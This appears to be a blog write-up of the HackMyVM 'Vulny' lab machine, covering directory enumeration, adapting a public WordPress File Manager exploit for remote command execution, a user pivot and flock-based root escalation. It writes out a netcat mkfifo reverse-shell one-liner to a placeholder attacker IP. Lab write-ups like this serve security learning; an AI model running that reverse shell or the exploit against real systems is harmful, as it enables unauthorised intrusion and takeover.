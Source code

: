 +++
title = 'Vulny - Hackmyvm'
date = 2024-01-20T14:47:53-06:00
draft = false
summary = "Writeup of the machine vulny from the hackmyvm website"
tags = ["pentesting","hackmyvm"]
+++

# Machine Information
***
| Name  | Vulny  |
|---|---|
|  OS | Linux  |
|Author   |SML   |
|Difficulty   |Easy   |
|Site   |[hackmyvm](https://hackmyvm.eu)   |
***

## Recon and enumeration

Service scan:

![](/hackmyvm/easy/vulny/vulny%20(1).png)

Lets check the webpage:

![](/hackmyvm/easy/vulny/vulny%20(2).png)

Default apache2 webpage, we run a gobuster scan.

![](/hackmyvm/easy/vulny/vulny%20(3).png)

We find two interesting directories, javascript and secret, let's check them:

![](/hackmyvm/easy/vulny/vulny%20(4).png)

We find something interesting, maybe, that's the directory we are in right now, so let's keep that in mind, in the javascript page we dont have enough privileges to view it:

![](/hackmyvm/easy/vulny/vulny%20(5).png)

Let's enumerate the /secret directory:

![](/hackmyvm/easy/vulny/vulny%20(6).png)

We find another 3 directories , lets secret each one of them:

![](/hackmyvm/easy/vulny/vulny%20(7).png)

***
![](/hackmyvm/easy/vulny/vulny%20(8).png)

![](/hackmyvm/easy/vulny/vulny%20(9).png)

*Later on, I found this directories on the /wp-admin directories, but could'nt access them*
***

![](/hackmyvm/easy/vulny/vulny%20(10).png)

Lets check the /uploads directory in /wp-content:

![](/hackmyvm/easy/vulny/vulny%20(11).png)

We find a zip-file, lets download it and see its contents:

![](/hackmyvm/easy/vulny/vulny%20(12).png)

Among the files of the zip, se file an sql file, we research how to open it:

![](/hackmyvm/easy/vulny/vulny%20(13).png)
![](/hackmyvm/easy/vulny/vulny%20(14).png)

Lets follow this steps, we find nothing of interest in the database tables:(make sure we start the mysql service with `sudo service start mysql`)

![](/hackmyvm/easy/vulny/vulny%20(15).png)

Apparently, this database has no information at all, ideally , it would have user and password information, I decide to do a little bit of research on the wp file manager and it's version to see if it can be exploited in some way.

After a while, a find a [github](https://github.com/ircashem/wp-file-manager-plugin-exploit) page, containing a exploit for this app, it a plugin for wordpress, and the exploit will a allow remote command execution, now I'll follow this steps, and see if I can get a reverse shell:

I get an error code:

![](/hackmyvm/easy/vulny/vulny%20(16).png)

Lets check the code and see what's the problem:

![](/hackmyvm/easy/vulny/vulny%20(17).png)

We can see, that the default directory I will look up will start with `/wp-content` ,but, let's remember our directory enumeration, the `/wp-content` directory is in the `/secret` directory:

![](/hackmyvm/easy/vulny/vulny%20(18).png)

Also, just for the sake of confirmation, lets check the content of the zip file we downloaded and see if the `readme.txt` is there:

![](/hackmyvm/easy/vulny/vulny%20(19).png)

There it is, so, now ,to make the code work, we just need to add the `/secret` string to the variable, like this:

![](/hackmyvm/easy/vulny/vulny%20(20).png)

It should work now, lets try again:

![](/hackmyvm/easy/vulny/vulny%20(21).png)

We find another error, but this time, in my opinion, the programmers part, didn't it say that 6.0 was also vulnerable?

![](/hackmyvm/easy/vulny/vulny%20(22).png)

It is, lets check the code again:

![](/hackmyvm/easy/vulny/vulny%20(23).png)

We found the problem, now, what's happening here, to sum it up, the `>` operator *greater than* is causing the problem, because of this, instead of looking through version `6.0 to 6.8` it will only detect version through `6.1 to 6.8` as vulnerable ,leaving out the `6.0` of the app, let add an `=` next to the `>` , to take in count the `6.0`  and then let's try out the code again:

![](/hackmyvm/easy/vulny/vulny%20(24).png)

After looking at the code a while, I realize, there are another strings referencing the directory that I did not change:

![](/hackmyvm/easy/vulny/vulny%20(25).png)

## Initial access and user pivoting
Now, lets run the exploit again:

![](/hackmyvm/easy/vulny/vulny%20(26).png)

There we go! Lets see what we can find:

![](/hackmyvm/easy/vulny/vulny%20(27).png)

First, we find the user adrian, lets see if we can access his home folder, it seems we cannot traverse directories, let try that reverse shell we saw earlier on the github page of the exploit:

First we start our listener in our machine :

![](/hackmyvm/easy/vulny/vulny%20(28).png)

Then we run the `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-MACHINE-IP> <PORT-OF-YOUR-CHOOSING> >/tmp/f ` on the target machine:

![](/hackmyvm/easy/vulny/vulny%20(29).png)


![](/hackmyvm/easy/vulny/vulny%20(30).png)
We have a reverse shell! Lets update our shell a little:

![](/hackmyvm/easy/vulny/vulny%20(31).png)

Using the following, remember that we have to run a `bash shell` for this to work, which, in my case I need to do because I'm using zsh, I run the command, and explore ,first, I look for other users:

![](/hackmyvm/easy/vulny/vulny%20(32).png)

Besides root, only the user *adrian* can use a shell session, lets go to his home directory and check its contents:

![](/hackmyvm/easy/vulny/vulny%20(33).png)

We can't access anything interesting in this directory, but now we know we have to pivot to this user, lets check if theres something of interest ing the `/var/www/` directory:

![](/hackmyvm/easy/vulny/vulny%20(34).png)

Nothing there...

I decide explore the contents of the wordpress directory, there I find some interesting files:

![](/hackmyvm/easy/vulny/vulny%20(35).png)

I inspect the contents of that php file:

![](/hackmyvm/easy/vulny/vulny%20(36).png)

Lets try that:

![](/hackmyvm/easy/vulny/vulny%20(37).png)

Great! Now lets get that user flag:

![](/hackmyvm/easy/vulny/vulny%20(38).png)

## Privilege Escalation
Now, lets run the usual commands to check if we can find any privesc vectors:

![](/hackmyvm/easy/vulny/vulny%20(39).png)

We search that program in [gtfobins](https://gtfobins.github.io/gtfobins/flock/)

![](/hackmyvm/easy/vulny/vulny%20(40).png)

We try this, and see if we can access the contents of the /root directory:

![](/hackmyvm/easy/vulny/vulny%20(41).png)

Even better, we get root! Lets see if we can get that flag:

![](/hackmyvm/easy/vulny/vulny%20(42).png)

And we have pwned the machine.

## Thing I learned from this machine

- Wordpress vulnerabililty in versions ranging from (6.0 to 6.8)
- How to access a database I downloaded from a file server with mysql(and that not always those databases will have data on them...)
- Remember the start a bash shell when getting a full TTY(if not using bash a main shell session)
- Check config files for useful information
- Apparently, after checking other writeups, I could've use the metasploit framework too for this machine.